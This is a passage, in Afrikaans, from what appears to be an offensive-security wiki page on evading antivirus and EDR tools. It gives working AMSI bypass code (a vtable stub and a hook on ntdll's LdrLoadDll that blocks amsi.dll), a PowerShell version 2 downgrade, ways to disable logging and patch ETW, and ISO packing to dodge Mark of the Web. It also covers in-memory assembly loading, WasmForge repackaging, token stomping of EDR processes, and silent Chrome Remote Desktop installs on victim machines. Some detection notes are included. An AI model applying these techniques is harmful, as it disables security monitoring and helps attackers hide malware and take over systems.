Nog ’n proses-plaaslike omseiling laat die `AmsiScanBuffer`-ingangspunt onaangeraak. In die gerapporteerde 64-bis .NET-loader word ’n AMSI COM-objek vanuit CLSID `fdb00e52-a214-4aa1-8fba-4357bb0072ec` geskep; `Marshal.GetIUnknownForObject()` lewer die koppelvlakwyser op, en die vtable-gleuf by offset `0x18` word as die teiken vir die scan-oproep gebruik. Die loader patch ’n native wyser vir `Console.Clear()` met ’n klein x64-stub, verander daardie vtable-inskrywing na die stub onder `VirtualProtect()` en herstel dan die oorspronklike bladsybeskerming. Beide die 64-bis-wyserwydte en die verwagte COM-uitleg is voorvereistes; dit is nie ’n generiese offset vir arbitrêre AMSI-koppelvlakke of builds nie. Die vroeër waargenome stadiums is [signed AppDomainManager sidecar loading](windows-local-privilege-escalation/dll-hijacking/#signed-appdomainmanager-type-as-a-configuration-file-gadget) en [RESX deserialization](../pentesting-web/deserialization/basic-.net-deserialization-objectdataprovider-gadgets-expandedwrapper-and-json.net.md#resx-resource-parsing-to-binaryformatter-and-xaml).<sup>[[51]](#references)</sup>

Die waargenome stub-grepe is `41 C7 00 01 00 00 00 33 C0 C3`: hulle skryf **1** na die resultaatwyser in `r8` en gee **0** in `eax` terug. Die gerapporteerde bewering dat die scan-resultaat `AMSI_RESULT_CLEAN` (0) is, verwar dus die `S_OK`-terugkeerwaarde met die uitvoer-enum. In die gedokumenteerde `AMSI_RESULT`-volgorde is resultaat **1** `AMSI_RESULT_NOT_DETECTED`; dit is steeds onder die opsporingsdrempel.<sup>[[51]](#references)[[52]](#references)[[53]](#references)</sup>

### Blokkering van AMSI deur te verhoed dat amsi.dll laai (LdrLoadDll-hook)

AMSI word slegs geïnisialiseer nadat `amsi.dll` in die huidige proses gelaai is. ’n Robuuste, taal-onafhanklike omseiling is om ’n user-mode-hook op `ntdll!LdrLoadDll` te plaas wat ’n fout teruggee wanneer die aangevraagde module `amsi.dll` is. Gevolglik laai AMSI nooit nie en vind geen skanderings vir daardie proses plaas nie.<sup>[[23]](#references)</sup>

Implementeringsoorsig (x64 C/C++-pseudokode):
```c
#include <windows.h>
#include <winternl.h>

typedef NTSTATUS (NTAPI *pLdrLoadDll)(PWSTR, ULONG, PUNICODE_STRING, PHANDLE);
static pLdrLoadDll realLdrLoadDll;

NTSTATUS NTAPI Hook_LdrLoadDll(PWSTR path, ULONG flags, PUNICODE_STRING module, PHANDLE handle){
    if (module && module->Buffer){
        UNICODE_STRING amsi; RtlInitUnicodeString(&amsi, L"amsi.dll");
        if (RtlEqualUnicodeString(module, &amsi, TRUE)){
            // Pretend the DLL cannot be found → AMSI never initialises in this process
            return STATUS_DLL_NOT_FOUND; // 0xC0000135
        }
    }
    return realLdrLoadDll(path, flags, module, handle);
}

void InstallHook(){
    HMODULE ntdll = GetModuleHandleW(L"ntdll.dll");
    realLdrLoadDll = (pLdrLoadDll)GetProcAddress(ntdll, "LdrLoadDll");
    // Apply inline trampoline or IAT patching to redirect to Hook_LdrLoadDll
    // e.g., Microsoft Detours / MinHook / custom 14‑byte jmp thunk
}
```
Notas
- Werk met PowerShell, WScript/CScript en pasgemaakte loaders (enigiets wat andersins AMSI sou laai).
- Kombineer dit met die stuur van scripts oor stdin (`PowerShell.exe -NoProfile -NonInteractive -Command -`) om lang opdragreëlspore te vermy.
- Is gebruik deur loaders wat deur LOLBins uitgevoer word (bv. `regsvr32` wat `DllRegisterServer` aanroep).

Die nutsding **[https://github.com/Flangvik/AMSI.fail](https://github.com/Flangvik/AMSI.fail)** genereer ook scripts om AMSI te omseil.
Die nutsding **[https://amsibypass.com/](https://amsibypass.com/)** genereer ook scripts om AMSI te omseil wat handtekeningopsporing vermy deur ewekansige gebruiker-gedefinieerde funksies, veranderlikes en karakteruitdrukkings te gebruik, en ewekansige hooflettergebruik vir PowerShell-sleutelwoorde toe te pas om handtekeningopsporing te vermy.

**Verwyder die bespeurde handtekening**

Jy kan nutsgoed soos **[https://github.com/cobbr/PSAmsi](https://github.com/cobbr/PSAmsi)** en **[https://github.com/RythmStick/AMSITrigger](https://github.com/RythmStick/AMSITrigger)** gebruik om die bespeurde AMSI-handtekening uit die geheue van die huidige proses te verwyder. Hierdie nutsgoed skandeer die geheue van die huidige proses vir die AMSI-handtekening en oorskryf dit dan met NOP-instruksies, wat dit effektief uit die geheue verwyder.

**AV/EDR-produkte wat AMSI gebruik**

Jy kan ’n lys van AV/EDR-produkte wat AMSI gebruik by **[https://github.com/subat0mik/whoamsi](https://github.com/subat0mik/whoamsi)** vind.

**Gebruik PowerShell-weergawe 2**
As jy PowerShell-weergawe 2 gebruik, sal AMSI nie gelaai word nie, sodat jy jou scripts kan uitvoer sonder dat AMSI dit skandeer. Jy kan dit so doen:

```bash
powershell.exe -version 2
```

## PS Logging

PowerShell-logging is ’n kenmerk waarmee jy alle PowerShell-opdragte wat op ’n stelsel uitgevoer word, kan aanteken. Dit kan nuttig wees vir ouditering en probleemoplossing, maar dit kan ook ’n **probleem wees vir aanvallers wat opsporing wil vermy**.

Om PowerShell-logging te omseil, kan jy die volgende tegnieke gebruik:

- **Deaktiveer PowerShell Transcription en Module Logging**: Jy kan ’n nutsmiddel soos [https://github.com/leechristensen/Random/blob/master/CSharp/DisablePSLogging.cs](https://github.com/leechristensen/Random/blob/master/CSharp/DisablePSLogging.cs) hiervoor gebruik.
- **Gebruik PowerShell-weergawe 2**: As jy PowerShell-weergawe 2 gebruik, sal AMSI nie gelaai word nie, sodat jy jou skripte kan uitvoer sonder dat AMSI dit skandeer. Jy kan dit soos volg doen: `powershell.exe -version 2`
- **Gebruik ’n unmanaged PowerShell-sessie**: Gebruik [UnmanagedPowerShell](https://github.com/leechristensen/UnmanagedPowerShell) om PowerShell te huisves sonder om `powershell.exe` te begin (die benadering wat Cobalt Strike se `powerpick` gebruik). Dit omseil kontroles wat spesifiek aan die `powershell.exe`-proses gekoppel is, maar deaktiveer nie vanself AMSI, Script Block Logging of alle ander PowerShell-verdedigings nie; dekking hang af van die runtime en gasheerimplementering.


## Obfuscation

> [!TIP]
> Verskeie obfuscation-tegnieke maak staat op die enkripsie van data, wat die binêre lêer se entropie sal verhoog en dit vir AV’s en EDR’s makliker sal maak om dit op te spoor. Wees versigtig hiermee en pas enkripsie dalk net toe op spesifieke dele van jou kode wat sensitief is of versteek moet word.

### Deobfuscation van ConfuserEx-beskermde .NET-binêre lêers

Wanneer jy malware ontleed wat ConfuserEx 2 (of kommersiële forks) gebruik, is dit algemeen om verskeie beskermingslae teë te kom wat dekompileerders en sandboxes sal blokkeer. Die werkvloei hieronder **herstel betroubaar ’n byna oorspronklike IL**, wat daarna na C# gedekompileer kan word met nutsmiddels soos dnSpy of ILSpy.<sup>[[10]](#references)</sup>

1.  Verwydering van anti-manipulasie – ConfuserEx enkripteer elke *method body* en dekripteer dit binne die statiese konstruktor van die *module* (`<Module>.cctor`). Dit pas ook die PE-kontrolesom aan, sodat enige wysiging die binêre lêer sal laat omval. Gebruik **AntiTamperKiller** om die geënkripteerde metadatatabelle op te spoor, die XOR-sleutels te herstel en ’n skoon assembly te herskryf:
   ```bash
   # https://github.com/wwh1004/AntiTamperKiller
   python AntiTamperKiller.py Confused.exe Confused.clean.exe
   ```
   Die uitvoer bevat die 6 anti-tamper-parameters (`key0-key3`, `nameHash`, `internKey`) wat nuttig kan wees wanneer jy jou eie unpacker bou.

2.  Simbool-/beheervloeitherstel – voer die *clean* lêer aan **de4dot-cex** ('n ConfuserEx-bewuste fork van de4dot).
   ```bash
   de4dot-cex -p crx Confused.clean.exe -o Confused.de4dot.exe
   ```
   Vlagte:
     • `-p crx` – kies die ConfuserEx 2-profiel
     • de4dot sal control-flow flattening ongedaan maak, oorspronklike namespaces, klasse en veranderlikename herstel en konstantestrings dekripteer.

3.  Proxy-call stripping – ConfuserEx vervang direkte metode-oproepe met liggewig-omhulsels (ook bekend as *proxy calls*) om dekompilering verder te bemoeilik. Verwyder hulle met **ProxyCall-Remover**:
   ```bash
   ProxyCall-Remover.exe Confused.de4dot.exe Confused.fixed.exe
   ```
   Ná hierdie stap behoort jy normale .NET API's soos `Convert.FromBase64String` of `AES.Create()` waar te neem, in plaas van ondeursigtige wrapper-funksies (`Class8.smethod_10`, …).

4.  Handmatige opruiming – voer die resulterende binêre lêer onder dnSpy uit en soek na groot Base64-blobs of die gebruik van `RijndaelManaged`/`TripleDESCryptoServiceProvider` om die *werklike* payload op te spoor.  Die malware stoor dit dikwels as 'n TLV-geënkodeerde byte-skikking wat binne `<Module>.byte_0` geïnitialiseer word.

Die bogenoemde ketting herstel die uitvoeringsvloei **sonder** dat die kwaadwillige sample uitgevoer hoef te word – nuttig wanneer jy op 'n vanlyn werkstasie werk.

> 🛈  ConfuserEx produseer 'n pasgemaakte attribuut genaamd `ConfusedByAttribute` wat as 'n IOC gebruik kan word om samples outomaties te triageer.

#### One-liner
```bash
autotok.sh Confused.exe  # wrapper that performs the 3 steps above sequentially
```

---

- [**InvisibilityCloak**](https://github.com/h4wkst3r/InvisibilityCloak)**: C# obfuscator**
- [**Obfuscator-LLVM**](https://github.com/obfuscator-llvm/obfuscator): Die doel van hierdie projek is om ’n oopbron-fork van die [LLVM](http://www.llvm.org/)-samestellingsuite te verskaf wat verbeterde sagtewaresekuriteit deur [code obfuscation](<http://en.wikipedia.org/wiki/Obfuscation_(software)>) en peuterbeskerming kan bied.
- [**ADVobfuscator**](https://github.com/andrivet/ADVobfuscator): ADVobfuscator demonstreer hoe die `C++11/14`-taal gebruik kan word om tydens samestelling geobfuskeerde code te genereer, sonder om enige eksterne tool te gebruik of die compiler te wysig.
- [**obfy**](https://github.com/fritzone/obfy): Voeg ’n laag geobfuskeerde bewerkings by wat deur die C++-template-metaprogrammeringsraamwerk gegenereer word, wat die lewe vir iemand wat die toepassing wil kraak ’n bietjie moeiliker maak.
- [**Alcatraz**](https://github.com/weak1337/Alcatraz)**:** Alcatraz is ’n x64 binary obfuscator wat verskeie soorte PE-lêers kan obfuskeer, insluitend: .exe, .dll, .sys
- [**metame**](https://github.com/a0rtega/metame): Metame is ’n eenvoudige metamorfiese code-enjin vir arbitrêre uitvoerbare lêers.
- [**ropfuscator**](https://github.com/ropfuscator/ropfuscator): ROPfuscator is ’n fynkorrelige code-obfuskasieraaamwerk vir LLVM-ondersteunde tale wat ROP (return-oriented programming) gebruik. ROPfuscator obfuskeer ’n program op samestellingscodevlak deur gewone instruksies in ROP-kettings om te skakel, wat ons natuurlike begrip van normale beheervloei verydel.
- [**Nimcrypt**](https://github.com/icyguider/nimcrypt): Nimcrypt is ’n .NET PE Crypter wat in Nim geskryf is
- [**inceptor**](https://github.com/klezVirus/inceptor)**:** Inceptor kan bestaande EXE/DLL-lêers na shellcode omskakel en dit dan laai

### LLVM compiler-ondersteunde per-funksie selfmaskering

In plaas daarvan om ’n hele implant net te masker terwyl dit slaap, kan ’n gewysigde LLVM X86-backend geselekteerde funksies met XOR masker wanneer hulle onaktief is. Die Function Peekaboo PoC kies gedemanglede name wat `REG_` bevat, voeg posisie-onafhanklike entry/exit-stubs om die finale masjiencode in, en genereer een gedeelde maskerhandler in `.text`; handtekeninge op broncodeniveau en die Windows x64-oproepekonvensie bly onveranderd.<sup>[[38]](#references)[[39]](#references)</sup>

#### Backend-beheervloeitransformasie

Dit hoort ná instruksiekeuse en -optimering, omdat die transformasie **elke gegenereerde return** moet dek en die presiese x86-uitleg moet ken. ’n `MachineFunctionPass` vóór uitreiking vind die laaste `MachineInstr::isReturn()`, skrap dit sodat die finale pad deurval na die aangehegte epiloog, en vervang vroeëre returns met `JMP_1 handler`. Behou enige compilergegenereerde stapel-/raamafbreking wat elke return voorafgaan; herlei net die return-instruksie self.<sup>[[38]](#references)[[39]](#references)</sup>

`X86AsmPrinter::emitFunctionBodyStart()` en `X86AsmPrinter::emitFunctionBodyEnd()` reik die per-funksie-stubs uit, terwyl `emitEndOfAsmFile()` die handler uitreik. Simbole wat tussen uitreikstadiums gedeel word, laat ’n proloogvertakking toe om na sy latere epiloog te teiken; skryf vir ’n handmatig uitgereikte near `je` `0F 84`, gevolg deur die viergreep-MC-uitdrukking `target - address_after_je`. Oproepe en spronge na die handler kan eerder as `MCInst`-objekte (`CALL64pcrel32` en `JMP_1`) uitgereik word. ’n Pass moet `false` teruggee vir ’n nie-geselekteerde funksie wanneer niks verander is nie; die PoC gee verkeerdelik `true` op daardie pad terug.<sup>[[38]](#references)[[39]](#references)</sup>

#### Metadata en pre-CRT-inisialisering

Die PoC plaas ’n XOR-sleutel en 16-greep-rekords met ’n deur die loader herplaasde funksiewyser plus ’n looptydlengte in `.funcmeta`. Hoewel die C-veld ’n `uint32_t` is, verkry die handler ’n QWORD by rekordoffset `+8`, wat die lengte en sy opvulling verbruik, en beweeg rekords met `0x10` aan. PE-afdelingsname is net agt grepe lank, dus sien die looptydopsoek `.funcmet`. ’n Eksterne patcher voeg ’n uitvoerbare `.stub` by, stoor die ou entry-point-RVA in die stub en herlei `AddressOfEntryPoint`; die PIC-stub kry die image base van `gs:[0x60]` → `[PEB+0x10]`, loop deur PE32+-invoere om ’n reeds ingevoerde `VirtualProtect` op te spoor en loop voor die CRT.<sup>[[38]](#references)[[39]](#references)</sup>

Inisialisering stel ’n sentinel in `gs:[0xE8]` en roep elke metadata-funksie aan. Die permanent leesbare proloog stoor die funksiebegin in `gs:[0xF0]`, bespeur die sentinel en slaan die nog ongewysigde liggaam oor. Die epiloog gebruik dan `call handler`; nadat die handler 13 registers (`0x68` grepe) gestoor het, is die return-adres by `[rsp+0x68]` die einde van die getransformeerde funksie, sodat `end - start` in sy metadatarekord geskryf kan word. Die stub vee die sentinel uit en spring na `ImageBase + original_entry_point_RVA` nadat al die liggame gemasker is.<sup>[[38]](#references)[[39]](#references)</sup>

Tydens ’n normale oproep roep die proloog dieselfde simmetriese handler aan om die liggaam te dekodeer. Die finale pad loop deur na die aangehegte epiloog, terwyl elke vroeëre return reguit na die gedeelde handler spring. Die normale epiloog gebruik ook `jmp handler` eerder as `call`, sodat die handler se `ret` die oorspronklike return-adres van die oproeper verbruik nadat dit weer gemasker het, en die funksieresultaat in `RAX` behou.<sup>[[38]](#references)[[39]](#references)</sup>

#### Maskeringsprimitief en ontledingsaanwysers

Die handler vind die huidige rekord, slaan die vaste sigbare proloog oor (`0x46` grepe in hierdie bou), verander die res na `PAGE_EXECUTE_READWRITE`, XOR dit greep vir greep met die lae sleutelgreep en stel dit dan op `PAGE_EXECUTE_READ`. Dieselfde lus dekodeer dus tydens toetrede en enkodeer tydens elke normale uittrede.<sup>[[38]](#references)[[39]](#references)</sup>

Aanwysers met ’n hoë seinwaarde vir hierdie ontwerp sluit in:<sup>[[38]](#references)[[39]](#references)</sup>

- ’n entry point binne ’n uitvoerbare `.stub` en ’n `.funcmet`-afdeling met ’n sleutel plus herplaasde `.text`-wysers;
- PEB-, invoertabel- en afdelingtabel-ontleding voor die CRT, gevolg deur oproepe via elke metadatawyser;
- identiese `call`/`pop` PIC-proloë en talle return-punte wat na een handler herlei word;
- skrywes na `gs:[0xE8]`, `gs:[0xF0]` en `gs:[0xF8]`, gevolg deur herhaalde `VirtualProtect`-oorgange en greep-vir-greep XOR-skrywes na uitvoerbare bladsye wat deur die image gesteun word.

Dit is ontduiking van geheueskandeerders, nie kriptografiese beskerming nie: die gelapte lêer bevat steeds die oorspronklike ongeënkodeerde liggaam, en ’n debugger kan by `VirtualProtect` of die XOR-lus breek en die aktiewe funksie dump. Die enkelgreep-XOR, leesbare metadata en vaste `0x46`-grens maak ook vanlyn-herwinning eenvoudig.<sup>[[38]](#references)[[39]](#references)</sup>

> [!WARNING]
> Die PoC se TEB-gleuwe is thread-lokaal, maar die gewysigde codebladsye is proseswyd. Gelyktydige of rekursiewe toetrede kan instruksies dus weer omkeer terwyl ’n ander aanroeping uitgevoer word; uitsonderings en nie-plaaslike uittredes kan ook herkasking omseil. ’n Robuuste implementering moet oorgange sinkroniseer, die beskerming herstel wat werklik via `lpflOldProtect` teruggegee is, hardgekodeerde stublengtes vermy, beide `call`- en `jmp`-paaie vir x64-stapelbelyning nagaan en `FlushInstructionCache` aanroep nadat uitvoerbare grepe herskryf is. Microsoft maak die oproeper uitdruklik verantwoordelik vir instruksie-kas-koherensie wanneer uitvoerbare code gewysig word.<sup>[[38]](#references)[[39]](#references)[[40]](#references)</sup>

## SmartScreen & MoTW

Jy het dalk hierdie skerm gesien wanneer jy sommige uitvoerbare lêers van die internet aflaai en uitvoer.

Microsoft Defender SmartScreen is ’n sekuriteitsmeganisme wat bedoel is om die eindgebruiker te beskerm teen die uitvoer van moontlik kwaadwillige toepassings.

<figure><figcaption></figcaption></figure>

SmartScreen werk hoofsaaklik met ’n reputasiegebaseerde benadering. Dit beteken dat toepassings wat nie dikwels afgelaai word nie, SmartScreen sal aktiveer en die eindgebruiker sal waarsku en verhoed om die lêer uit te voer (hoewel die lêer steeds uitgevoer kan word deur More Info -> Run anyway te klik).

**MoTW** (Mark of The Web) is ’n [NTFS Alternate Data Stream](<https://en.wikipedia.org/wiki/NTFS#Alternate_data_stream_(ADS)>) met die naam Zone.Identifier, wat outomaties geskep word wanneer lêers van die internet afgelaai word, saam met die URL waarvan dit afgelaai is.

<figure><figcaption><p>Kontroleer die Zone.Identifier ADS vir ’n lêer wat van die internet afgelaai is.</p></figcaption></figure>

> [!TIP]
> Dit is belangrik om daarop te let dat uitvoerbare lêers wat met ’n **trusted**-ondertekeningsertifikaat onderteken is, **nie SmartScreen sal aktiveer nie**.

’n Baie doeltreffende manier om te keer dat jou payloads die Mark of The Web kry, is om hulle in ’n soort houer, soos ’n ISO, te verpak. Dit werk omdat Mark-of-the-Web (MOTW) **nie** op **nie-NTFS**-volumes toegepas kan word nie.

<figure><figcaption></figcaption></figure>

[**PackMyPayload**](https://github.com/mgeeky/PackMyPayload/) is ’n tool wat payloads in uitvoerhouers verpak om Mark-of-the-Web te ontduik.

Voorbeeld van gebruik:

```bash
PS C:\Tools\PackMyPayload> python .\PackMyPayload.py .\TotallyLegitApp.exe container.iso

+      o     +              o   +      o     +              o
    +             o     +           +             o     +         +
    o  +           +        +           o  +           +          o
-_-^-^-^-^-^-^-^-^-^-^-^-^-^-^-^-^-_-_-_-_-_-_-_,------,      o
   :: PACK MY PAYLOAD (1.1.0)       -_-_-_-_-_-_-|   /\_/\
   for all your container cravings   -_-_-_-_-_-~|__( ^ .^)  +    +
-_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-__-_-_-_-_-_-_-''  ''
+      o         o   +       o       +      o         o   +       o
+      o            +      o    ~   Mariusz Banach / mgeeky    o
o      ~     +           ~          <mb [at] binary-offensive.com>
    o           +                         o           +           +

[.] Packaging input file to output .iso (iso)...
Burning file onto ISO:
    Adding file: /TotallyLegitApp.exe

[+] Generated file written to (size: 3420160): container.iso
```

Hier is ’n demo vir die omseiling van SmartScreen deur payloads in ISO-lêers te verpak met [PackMyPayload](https://github.com/mgeeky/PackMyPayload/)

<figure><figcaption></figcaption></figure>

## ETW

Event Tracing for Windows (ETW) is ’n kragtige aantekenmeganisme in Windows waarmee toepassings en stelselkomponente **gebeurtenisse kan aanteken**. Sekuriteitsprodukte kan dit egter ook gebruik om kwaadwillige aktiwiteite te monitor en op te spoor.

Net soos AMSI gedeaktiveer (omseil) word, is dit ook moontlik om die **`EtwEventWrite`**-funksie van die gebruikersruimteproses onmiddellik te laat terugkeer sonder om enige gebeurtenisse aan te teken. Dit word gedoen deur die funksie in die geheue te pleister sodat dit onmiddellik terugkeer, wat ETW-aantekening vir daardie proses effektief deaktiveer.

Jy kan meer inligting vind by **[https://blog.xpnsec.com/hiding-your-dotnet-etw/](https://blog.xpnsec.com/hiding-your-dotnet-etw/) en [https://github.com/repnz/etw-providers-docs/](https://github.com/repnz/etw-providers-docs/)**.<sup>[[33]](#references)[[34]](#references)</sup>


## C# Assembly Reflection

Die laai van C#-binaries in die geheue is al geruime tyd bekend, en dit is steeds ’n baie goeie manier om jou post-exploitation-nutsgoed te laat loop sonder om deur AV gevang te word.

Aangesien die payload direk in die geheue gelaai word sonder om aan die skyf te raak, hoef ons net bekommerd te wees oor die pleistering van AMSI vir die hele proses.

Die meeste C2-raamwerke (sliver, Covenant, metasploit, CobaltStrike, Havoc, ens.) bied reeds die vermoë om C#-assemblies direk in die geheue uit te voer, maar daar is verskillende maniere om dit te doen:

- **Fork\&Run**

Dit behels **die skep van ’n nuwe offerproses**, die inspuiting van jou kwaadwillige post-exploitation-kode in daardie nuwe proses, die uitvoering van jou kwaadwillige kode en, wanneer dit klaar is, die beëindiging van die nuwe proses. Dit hou voordele sowel as nadele in. Die voordeel van die fork-and-run-metode is dat uitvoering **buite** ons Beacon-implantproses plaasvind. Dit beteken dat daar ’n **veel groter kans** is dat ons **implant sal oorleef** as iets verkeerd loop of opgespoor word tydens ons post-exploitation-aksie. Die nadeel is dat daar ’n **groter kans** is om deur **Gedragsopsporing** gevang te word.

<figure><figcaption></figcaption></figure>

- **Inline**

Dit behels dat die kwaadwillige post-exploitation-kode **in sy eie proses** ingespuit word. Op dié manier kan jy vermy dat jy ’n nuwe proses moet skep en dit deur AV laat skandeer, maar die nadeel is dat daar ’n **veel groter kans** is dat jy jou **beacon verloor** as iets verkeerd loop tydens die uitvoering van jou payload, aangesien dit kan omval.

<figure><figcaption></figcaption></figure>

> [!TIP]
> As jy meer wil lees oor die laai van C# Assembly, lees gerus hierdie artikel [https://securityintelligence.com/posts/net-execution-inlineexecute-assembly/](https://securityintelligence.com/posts/net-execution-inlineexecute-assembly/) en hul InlineExecute-Assembly BOF ([https://github.com/xforcered/InlineExecute-Assembly](https://github.com/xforcered/InlineExecute-Assembly))

Jy kan ook C# Assemblies **vanuit PowerShell** laai. Kyk na [Invoke-SharpLoader](https://github.com/S3cur3Th1sSh1t/Invoke-SharpLoader) en [S3cur3th1sSh1t se video](https://www.youtube.com/watch?v=oe11Q-3Akuk).

## NativeAOT WebAssembly-repakking van .NET-nutsgoed (WasmForge)

Normale `execute-assembly`-tegnieke behou herkenbare MSIL en inisialiseer uiteindelik ’n CLR. **WasmForge** verander eerder die uitvoeringsbasis: dit migreer ’n C#-projek na die eksperimentele NativeAOT-LLVM WASI-teiken, stel dit vooraf saam na WebAssembly en sluit daardie module in ’n Wazero-gebaseerde Windows PE-gasheer in. Die gevolglike proses benodig nie die teiken se CLR, JIT of `dotnet`-gasheer nie, dus het reëls wat slegs op name van bestuurde assemblies, CLR-laai, AMSI of .NET ETW staatmaak, nie meer direkte sigbaarheid nie. Dit is ’n ontduikings-/verpakkingstegniek, nie ’n omseiling van ’n voorreggrens nie—die gas is steeds onderhewig aan die oorspronklike nutsding se toestemmings en waarneembare OS-gedrag.<sup>[[44]](#references)[[45]](#references)</sup>

### Bou van ’n C#-projek

Die aanbevole boumetode is die projek se Docker-omgewing, aangesien dit die .NET 10 SDK, NativeAOT-LLVM-werklading, WASI SDK 24.0, skakelprogram en ondertekeningsafhanklikhede insluit. ’n `.csproj` word outomaties opgespoor; die eenmalige bouproses voer migrasie, versoenbaarheidspatching, WASM-samestelling, PE-smee en ondertekening uit.<sup>[[45]](#references)</sup>

```bash
# From the WasmForge repository
make docker-build
make docker-run DOCKER_SRC=/path/to/Seatbelt DOCKER_PROJECT=seatbelt

# Equivalent direct build when all prerequisites are installed
GOOS=windows GOARCH=amd64 ./wasmforge build --win32-apis \
  -o seatbelt.exe /path/to/Seatbelt/Seatbelt/
```

Vir foutopsporing of hersiening van gegenereerde kode, verdeel die proses in `wasmforge dotnet-migrate <dir>`, `wasmforge dotnet-patch <dir>`, `dotnet publish -c Release -r wasi-wasm`, en ’n finale `wasmforge build --wasm <module> --nativeaot --win32-apis -o <output.exe>`. Die boubeeld gebruik ook ’n `wasm-component-ld`-omhulsel om die WASI Preview 2-komponentenkodering te vermy en die gewone module te produseer wat die ingebedde runtime verwag.<sup>[[44]](#references)[[45]](#references)</sup>

### Koppeling van wasm32 C# aan x64 Win32

Dit is nie ’n deursigtige herkompilering nie. NativeAOT-WASI het nie sekere Windows-georiënteerde BCL-kenmerke nie, of verander hulle, en ’n wasm32-gasheer allokeer gewoonlik viergreep-aanwysergleuwe, terwyl x64-API’s agtgreep-aanwysers kan teruggee. WasmForge pak albei probleme aan met die volgende gegenereerde lae:<sup>[[44]](#references)</sup>

1. ’n Bronhersteller korrigeer AOT-spesifieke semantiese verskille en herlei onondersteunde registry-, pype-, WMI-, identiteits-, gidsdiens-, lêerweergawe-, LSA- en soortgelyke oproepe na `Wf*`-helpers.
2. ’n P/Invoke-skandeerder genereer NativeAOT-`DirectPInvoke`-karterings sodat `[DllImport]`-oproepe aan gekoppelde C-brugsimbole bind, eerder as om die verklaarde DLL dinamies binne die gasheer te laai.
3. Gasheergebonde aanwysers gebruik `ulong` in C# en `uint64_t` in C. ’n Generiese dispatcher stuur die oproep aan die gasheer se Win32-hanteerder deur; ’n `out8_mask` merk werklike agtgreep-uitsetgleuwe waarvan die boonste helftes behou moet word. Ongemerkte wasm32-vormige uitsette gebruik momentopname-/herstelbeskerming sodat ’n x64-skrywing nie die aangrensende vier grepe kan beskadig nie.
4. Toegewyde gasheerbrûe hanteer bewerkings wat nie by generiese syscall-versending pas nie, soos toegang tot LSA-kaartjiekas, Kerberos-/BCrypt-bewerkings met gestruktureerde resultate, TCP KDC-verkeer en LDAP-navrae.

Byvoorbeeld, ’n omhulsel vir `version.dll!VerQueryValueW` stuur vier gasheeradresse deur en stel bisse 2 en 3 (`0xC`) omdat die waarde-aanwyser en lengte agtgreep-uitsetgleuwe is. Die omhulsel self bly generies en delegeer die DLL-naam, uitvoernaam, argumente en masker aan `wf_call_v2`; die gasheer voer aanwyservertaling uit en roep die oorspronklike API aan.<sup>[[44]](#references)</sup>

```c
uint32_t version_VerQueryValueW_v2(uint64_t block, uint64_t subblock,
    uint64_t value_out, uint64_t length_out) {
    return (uint32_t)wf_call_v2("version.dll", "VerQueryValueW", 4,
        0xC, block, subblock, value_out, length_out);
}
```

### Beperkings en opsporingsaanknopingspunte

Kode wat swaar op reflection steun, dinamiese assembly-laai, arbitrêre native callbacks en komplekse x64-strukture wat na WASM-geheue teruggestuur word, kan steeds patches vir spesifieke nutsgoed vereis of heeltemal misluk. Generiese WASI Preview 2-sockets kan ook no-op-stubs bereik, dus gebruik ondersteunde nutsgoed protokolspesifieke host-shims. Valideer elke opdrag teen ’n native build eerder as om aan te neem dat die funksionaliteit ooreenstem.<sup>[[44]](#references)[[45]](#references)</sup>

Die tegniek verskuif telemetrie eerder as om die payload onsigbaar te maak. Opsporing kan fokus op ’n PE wat ’n WASM-module bevat of materialiseer, Wazero-agtige runtime-gedrag, ongewone host/guest-geheue-toewysing en -kopiëring, generiese direkte Win32-dispachering, afwykings in ondertekening en PE-hulpbronne, plus die gevolglike API-oproepe en netwerkverkeer. Die afwesigheid van CLR-load-, AMSI- of .NET ETW-gebeurtenisse moet dus nie as bewys beskou word dat ’n proses skadeloos is nie.<sup>[[44]](#references)</sup>

## Gebruik van ander programmeertale

Soos voorgestel in [**https://github.com/deeexcee-io/LOI-Bins**](https://github.com/deeexcee-io/LOI-Bins), is dit moontlik om kwaadwillige kode met ander tale uit te voer deur die gekompromitteerde masjien toegang **te gee tot die interpreter-omgewing wat op die aanvaller-beheerde SMB-share geïnstalleer is**.

Deur toegang tot die Interpreter Binaries en die omgewing op die SMB-share toe te laat, kan jy **arbitrêre kode in hierdie tale binne die geheue** van die gekompromitteerde masjien uitvoer.

Die repo dui aan: Defender skandeer steeds die scripts, maar deur Go, Java, PHP, ens. te gebruik, het ons **meer buigsaamheid om statiese signatures te omseil**. Toetse met ewekansige, nie-geobfuskeerde reverse shell-scripts in hierdie tale was suksesvol.

## WebAssembly re-hosting for static-analysis evasion

<a id="bridging-linear-memory-to-native-apis"></a>
<a id="per-build-wasm-vm-polymorphism"></a>
<a id="camouflaging-the-outer-go-executable"></a>

{{#ref}}
virtualized-payload-execution.md#webassembly-re-hosting-for-static-analysis-evasion
{{#endref}}

## TokenStomping

Token stomping manipuleer die access token van ’n sekuriteitsproduk soos ’n EDR of AV. Deur die token se voorregte te verminder, kan die proses aanhou loop terwyl dit verhinder word om bevoorregte inspeksie- of herstelaksies uit te voer.

Om dit te voorkom, kan Windows **eksterne prosesse verhinder** om handles na tokens van sekuriteitsprosesse te kry.

- [**https://github.com/pwn1sher/KillDefender/**](https://github.com/pwn1sher/KillDefender/)
- [**https://github.com/MartinIngesen/TokenStomp**](https://github.com/MartinIngesen/TokenStomp)
- [**https://github.com/nick-frischkorn/TokenStripBOF**](https://github.com/nick-frischkorn/TokenStripBOF)

## Gebruik van vertroude sagteware

### Chrome Remote Desktop

Soos beskryf in [**hierdie blogplasing**](https://trustedsec.com/blog/abusing-chrome-remote-desktop-on-red-team-operations-a-practical-guide), is dit maklik om Chrome Remote Desktop op ’n slagoffer se rekenaar te installeer en dit dan te gebruik om beheer daaroor oor te neem en volharding te behou:<sup>[[35]](#references)</sup>
1. Laai dit af vanaf https://remotedesktop.google.com/, klik op "Set up via SSH", en klik dan op die MSI-lêer vir Windows om die MSI-lêer af te laai.
2. Voer die installeerder stilweg op die slagoffer se masjien uit (admin word vereis): `msiexec /i chromeremotedesktophost.msi /qn`
3. Gaan terug na die Chrome Remote Desktop-bladsy en klik volgende. Die towenaar sal jou dan vra om te magtig; klik op die Authorize-knoppie om voort te gaan.
